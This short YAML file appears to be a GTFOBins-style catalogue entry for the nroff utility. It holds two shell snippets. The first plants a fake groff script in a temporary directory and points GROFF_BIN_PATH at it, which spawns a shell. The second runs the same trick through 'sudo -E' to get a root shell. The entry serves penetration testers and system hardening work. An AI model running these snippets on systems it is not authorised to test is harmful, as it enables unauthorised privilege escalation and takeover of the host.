```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/groff
        echo '/bin/sh' >> $TF/groff
        chmod +x $TF/groff
        GROFF_BIN_PATH=$TF nroff
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '#!/bin/sh' > $TF/groff
        echo '/bin/sh' >> $TF/groff
        chmod +x $TF/groff
        sudo -E GROFF_BIN_PATH=$TF nroff
---
```

